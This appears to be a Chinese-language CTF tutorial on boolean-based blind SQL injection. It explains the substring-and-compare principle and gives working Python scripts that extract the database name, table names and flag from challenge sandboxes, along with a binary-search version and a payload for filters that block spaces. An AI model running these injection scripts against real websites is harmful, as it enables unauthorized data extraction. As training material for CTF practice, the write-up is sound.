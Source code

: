 对于我们的没有回显的 SQL 注入，我们只能考虑使用我们的某种手段来爆破，而我们的布尔盲注在某种意义上就是我们的盲注。

一般来说，我们常用的布尔状态有：
1. 回显不同（内容，长度）
2. HTTP 响应码不同（200，500）
3. HTTP 响应头不同（无条件定向，设置 cookie）
4. 基于错误的布尔注入。

## 原理：
**查询语句=截取+比较**，截取用于找到我们的获取具体信息是什么，而比较是用于在指定的时间内找到我们的答案。

考虑我们执行我们的联合查询中常见的一种语句：
```sql
select * from users where id='1' and 1=1 #;
```

我们注意我们的一个逻辑表达式，首先我们的前面的语句是一定为真，而我们后面的 `1=1` 是否为真就决定了我们的这个语句是否能够执行。（交互题既视感）

因此，我们可以把后面的 `1=1` 改成我们想要知道结果的一个表达式：例如：
```sql
select *from users where id='1' and substr(select database(),1,1)='a'#
```

这里我们的后半句话的含义是：检查我们的 `database` 数据库的从第一个字符开始截取一个字符（首字母）是否为 a？
我们可以根据我们是否有回显来判断我们当前的字母到底是什么。

### 截取字符串需求
```sql
substr(str,pos,len)//从某个位置开始截取len长度（1开始）
mid()//得到我们的字符串的一部分，在sql中与substr一样
```
## 脚本
但是如果我们每一次都是暴力处理的话，我们的人工负担相当大，于是我们考虑使用 python 进行相关的辅助工作。

#### 获取数据库名
```python
import requests

import string

url="http://challenge-cb20caffefdc421c.sandbox.ctfhub.com:10800/?id="

result=""

for i in range(1,100):

    for ch in string.ascii_letters+string.digits+",:}{_":

        payload=f"1 and substr((select database()),{i},1)='{ch}'%23"

        r=requests.get(url+payload)

        if("query_success" in r.text):

            result+=ch

            print(result)

            break
```

#### 获取表名：
```python
import requests

import string

# ?id=1 and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)=‘n’

# databases=sqli

# line=news

# lineb= flag

url="http://challenge-cb20caffefdc421c.sandbox.ctfhub.com:10800/?id="

result=""

select="select table_name from information_schema.tables where table_schema=database() limit 1,1" #我们要查询的信息是什么

select_columns=""

select_info=""

for i in range(1,100):

    for ch in string.ascii_letters+string.digits+",:;}{_?.":

        payload=f"1 and substr(({select}),{i},1)='{ch}'%23"

        # print(payload)

        r=requests.get(url+payload)

        if("query_success" in r.text):

            result+=ch

	            print(result)

            break
```

#### 获取列名：
```python
import requests

import string


url="http://challenge-cb20caffefdc421c.sandbox.ctfhub.com:10800/?id="

result=""

select="select flag from flag" #我们要查询的信息是什么

select_columns=""

select_info=""

for i in range(1,100):

    for ch in string.ascii_letters+string.digits+",:;}{_?.":

        payload=f"1 and substr(({select}),{i},1)='{ch}'%23"

        # print(payload)

        r=requests.get(url+payload)

        if("query_success" in r.text):

            result+=ch

            print(result)

            break
```


## 优化技巧：
我们在优化的时候，一般会考虑用我们的一个 `right()` 函数来截取我们的一部分函数。它本身不能精确的截取我们的字符串，
```python
import requests

import time

  

url = "http://node4.anna.nssctf.cn:28070/index.php"

flag = ''

  

if __name__ == "__main__":

  

    for i in range(1, 100):

        mina = 33

        maxa = 130

        mid = int((maxa - mina) / 2)

        while True:

            payload = {

                'id': '0^' + '(ascii(substr((select(flag)from(flag)),{},1))>{})'.format(i, mid)

            }

            print(payload)

            res = requests.post(url=url, data=payload).text

            time.sleep(0.005)

            # print(res)

            if 'Hello' in res:

                mina = mid

                mid = int((maxa + mina) / 2)

            else:

                maxa = mid

                mid = int((maxa + mina) / 2)

            print("此时的最大值为{}, 最小值为{}, 中间值为{}".format(maxa,mina,mid))

            if (maxa-mina) <= 1:

                flag += chr(maxa)

                print(flag)

                break

        if '}' in flag:

            break
```
## 其他过滤：
如果我们限制了我们的 payload 中不能使用空格，我们应该采用下面的语句：
其中我们的 i 是我们的位置，j 是我们的猜测的字母
```
ascii(substr((select(flag)from(flag)),{i},1))=={j}
```
